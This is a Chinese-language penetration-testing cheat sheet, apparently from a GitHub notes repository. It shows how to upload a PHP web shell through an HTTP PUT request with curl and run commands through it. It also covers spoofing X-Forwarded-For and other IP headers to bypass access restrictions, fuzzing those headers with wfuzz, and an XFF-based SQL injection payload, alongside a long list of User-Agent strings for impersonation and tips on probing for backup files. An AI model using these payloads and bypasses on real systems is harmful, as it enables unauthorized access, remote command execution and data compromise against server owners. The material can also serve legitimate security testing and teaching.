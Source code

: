 
查看目录的请求选项： 
```
curl -v -X OPTIONS http://192.168.9.20/test/
```
使用 PUT方式上传后门：  
```
curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://192.168.9.20/test/shell.php
```
访问`http://192.168.9.20/test/shell.php?cmd=id`

## XFF绕过(x-forwarded-for)

http://www.jianshu.com/p/98c08956183d

XFF是header请求头中的一个参数,是用来识别通过HTTP代理或负载均衡方式连接到Web服务器的客户端最原始的IP地址的HTTP请求头字段。代表了HTTP的请求端真实的IP。

```
X-Forwarded-For: client1, proxy1, proxy2, proxy3

//浏览器IP，第一个代理服务器，第二个三个四个等等

curl http://192.168.2.191/service/ -H 'X-Forwarded-For:192.168.2.191'
```

### 利用方式

#### 1.绕过服务器过滤

XFF漏洞也称为IP欺骗。有些服务器通过XFF头判断是否是本地服务器，当判断为本地服务器时，才能访问相关内容。

```
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: 192.168.1.1
```
##### hackbar绕过
```
按下F12
Load URL
勾选referer，然后把需要伪装的URL粘贴上去，例如：https://www.google.com
```
##### wfuzz绕过

```
wfuzz -z range,0000-9999 -H "X-Forwarded-For: FUZZ" http://127.0.0.1/get.php?
```
##### curl绕过

```
curl -H "X-Forwarded-For: 192.168.56.127" -I https://example.com
```
##### wget绕过

```
wget --header "X-Forwarded-For: 192.168.56.127" https://example.com
```
#### 2.XFF导致sql注入

XFF注入和SQL的header头部注入原理一样，服务器端会对XFF信息进行记录，但没有进行过滤处理，就容易导致sql注入的产生

```
X-Forwarded-for: 127.0.0.1' and 1=1#
```

然后进一步利用sql注入，进行渗透测试。

#### "You don't have permission to access this resource."

##### 尝试修改请求头信息
- 服务器可能会根据请求头中的某些信息来判断是否允许访问。例如，`User-Agent`、`Referer`或者`Authorization`等头信息可能会被用于访问控制。

- 尝试修改`User-Agent`头信息，将其伪装成合法的浏览器或者被允许访问的工具。例如，将`User-Agent`设置为服务器管理员常用的浏览器（如`Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/XXXXX Safari/537.36`），其中`XXXXX`是常见的 Chrome 版本号。

1. **桌面浏览器请求头示例**
   - **Google Chrome**
     - `User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36`
     - 其中`Windows NT 10.0`表示操作系统为Windows 10，`Win64; x64`表示是64位系统，`AppleWebKit/537.36`是Chrome使用的WebKit内核版本相关信息，`KHTML, like Gecko`是为了兼容性声明类似于Gecko浏览器内核（用于Firefox），`Chrome/119.0.0.0`是Chrome浏览器版本，`Safari/537.36`是为了兼容部分基于Safari的网页标准。
   - **Mozilla Firefox**
     - `User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:119.0) Gecko/20100101 Firefox/119.0`
     - 这里`rv:119.0`表示渲染引擎（Gecko）的版本，`Gecko/20100101`是Firefox所使用的Gecko内核的基本标识，`Firefox/119.0`是Firefox浏览器的版本。
   - **Microsoft Edge**
     - `User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36 Edg/119.0.0.0`
     - 因为Edge是基于Chromium内核，所以它的`User-Agent`头部和Chrome类似，多了`Edg/119.0.0.0`来标识Edge浏览器版本。
1. **移动设备浏览器请求头示例**
   - **iOS Safari**
     - `User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 17_0_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Mobile/15E148 Safari/604.1`
     - 其中`iPhone`表示设备类型，`iPhone OS 17_0_3 like Mac OS X`是操作系统版本（类似Mac OS X系统），`AppleWebKit/605.1.15`是WebKit内核版本，`Version/17.0`是Safari浏览器版本，`Mobile/15E148`是移动设备相关的标识，`Safari/604.1`是Safari浏览器版本。
   - **Android Chrome**
     - `User-Agent: Mozilla/5.0 (Linux; Android 14; Pixel 7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Mobile Safari/537.36`
     - `Linux`表示Android系统基于Linux内核，`Android 14`是操作系统版本，`Pixel 7`是设备型号，后面的部分和桌面版Chrome类似，`Mobile`表示是移动设备请求。
3. **移动应用请求头示例（以iOS和Android应用为例）**
   - **iOS应用（假设是一个自定义的HTTP请求应用）**
     - `User-Agent: APP_NAME/1.0 (iOS 17.0.3; iPhone14,3)`
     - 这里`APP_NAME`是应用名称，`1.0`是应用版本，`iOS 17.0.3`是操作系统版本，`iPhone14,3`是设备型号。通常还可能包含其他自定义的头部，如`Authorization`（用于用户认证），例如`Authorization: Bearer <access_token>`，其中`<access_token>`是用户登录后获取的授权令牌。
   - **Android应用（假设是一个自定义的HTTP请求应用）**
     - `User-Agent: APP_NAME/1.0 (Android 14; SM - G9980)`
     - 其中`APP_NAME`是应用名称，`1.0`是应用版本，`Android 14`是操作系统版本，`SM - G9980`是设备型号（例如三星Galaxy S23 Ultra的型号）。可能还会有其他头部用于与服务器交互，如`Content - Type`（如果应用向服务器发送数据），例如`Content - Type: application/json`，表示发送的数据格式是JSON。
4. **物联网设备请求头示例（以智能家居设备为例）**
   - 假设一个智能摄像头向服务器发送请求来上传视频数据。
     - `User-Agent: CAMERA_MODEL/1.2 (EmbeddedLinux; ARMv7)`
     - 其中`CAMERA_MODEL`是摄像头型号，`1.2`是设备固件版本，`EmbeddedLinux`表示设备操作系统是嵌入式Linux系统，`ARMv7`表示设备处理器架构。可能还会有`Content - Length`头部来指定上传数据的大小，例如`Content - Length: 1024`（表示上传数据大小为1024字节），以及`Content - Type: video/mp4`（如果上传的是MP4格式的视频数据）。
#### 本地回环地址绕过

- 可能设置了`Deny from all`和`Allow from 127.0.0.1`，这意味着只有本地回环地址可以访问。
- 尝试在测试环境中模拟本地访问。可以通过在本地机器上设置代理，将请求源 IP 伪装成`127.0.0.1`来访问该路径。

#### 查找备份文件：
- 开发人员有时会在服务器上留下备份文件。可以尝试访问`http://xxx.xxx.xxx.xxx/server - status.bak`、`http://xxx.xxx.xxx.xxx/server - status~`或者`http://xxx.xxx.xxx.xxx/server - status.old`等路径。这些备份文件可能包含和`server - status`相同或相似的信息，并且可能没有受到严格的访问限制。

#### 补充

服务器判断真实地址的参数有时不一定是XFF，可能是以下几个参数

```
x-forwarded-fot
x-remote-IP
x-originating-IP
x-remote-ip
x-remote-addr
x-client-IP
x-client-ip
x-Real-ip
```
使用模糊测试fuzz一下，或许能找到绕过服务器过滤的请求头
